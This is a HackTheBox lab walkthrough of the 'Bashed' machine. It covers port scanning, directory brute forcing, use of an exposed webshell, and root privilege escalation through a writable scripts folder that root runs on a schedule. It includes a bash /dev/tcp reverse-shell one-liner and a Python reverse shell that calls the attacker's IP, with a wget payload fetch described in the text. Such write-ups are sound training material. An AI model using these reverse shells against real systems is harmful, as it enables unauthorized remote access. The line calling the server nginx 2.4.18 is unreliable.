### Summary
Bashed is a classic box, one of the more straight forward machines on HackTheBox that I used for to prepare for the OSCP (TJ Null list). It's an Easy Linux machine that focuses on basic HTTP enumeration in order to get a foothold. You're then required to escalate to a more privileged user that allows you to modify a directory where scripts are regularly scheduled to run as `root`.

### 1. Foothold
##### 1.1 Nmap Scan
I kicked things off with a simple `nmap` scan to see all active TCP ports
```bash
sudo nmap 10.10.10.68 -Pn -T5 -p-
```



From this simple scan, we can deduce a lot of information from the machine. The lack of any other ports except for port 80 suggests we will be getting our foothold from a vulnerability/misconfiguration on the web server. 

Having discovered that only port 80 was open, I continued with a more aggressive scan to get more details on the service.
```bash
sudo nmap 10.10.10.68 -Pn -T5 -p80 -A
```



From this scan, I noted that it was using nginx 2.4.18 for the web server as well as some details such as the title page. 

##### 1.2 Web Enumeration
When visiting the page `http://10.10.10.68:80`, I was greeted with a simple landing page with not much going on in terms of functionality, although I was able to note that it was running `php` under the hood.




At this point I felt it was about time to do a directory brute force to see what else was hiding:
```bash
gobuster dir -u http://10.10.10.68:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

From the scan, I discovered an interesting directory `/dev`.



Inside `/dev`, there is a simple webshell that allows us to interact with our target machine, but simply running commands such as `bash -i >& /dev/tcp/10.0.0.1/1234 0>&1` on it won't allow for a connection to be established. After some trial and error, I decided to try creating a reverse shell script from my attacker machine and find a way to upload it and run it on the target to establish a connection. 

I started by looking for a directory in which I had write permissions in. I resorted to using `/tmp` which typically has write permissions for everyone, but alternatively, `/uploads` that we found earlier in our directory brute force also allows us to upload an arbitrary file (like a php reverse shell or webshell since we know its using php). Since `curl` wasn't available on our target machine, I transitioned to using `wget` to download my reverse shell script from my host machine from a simple python http server. 




From there we are able to find the user flag in the home directory

### 2. Privilege Escalation
Kicking things off, I found that I was able to run commands as the user `scriptmanager` without using a password. This allowed me to enter a simple bash shell as the user `scriptmanager`.




Judging by the user's name itself, I had a strong feeling that the escalation path would be by modifying or viewing a script that only `scriptmanager` can view/create. To test this out, I checked files owned by `scriptmanager`.



Navigating to `/scripts`, I found a nice test python script that has already been created by `scriptmanager` and I saw a corresponding text file that gets created after running the python script. What's interesting is that the text file that gets created by `test.py` is owned by `root` and not `scriptmanager`. Furthermore, looking at the modification date only made me more certain, where it seems that `root` is regularly running scripts located in `/scripts`. 



To test this out I wrote a simple python reverse shell that I slightly modified from `pentest monkey`, transferred it over to the victim and waited. After the minute changed, my `netcat` listener caught the reverse shell and I was `root`.

```python
import socket,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.10",1244))
[os.dup2(s.fileno(), fd) for fd in (0,1,2)]
pty.spawn("/bin/bash")
```




### Conclusion
This machine was not that challenging but nonetheless was very enjoyable to do. The foothold was simple but, my key take away is to make sure to check tasks that get run regularly outside of what you would find from viewing cron jobs since the scripts weren't listed there even though they were being regularly run by `root`.
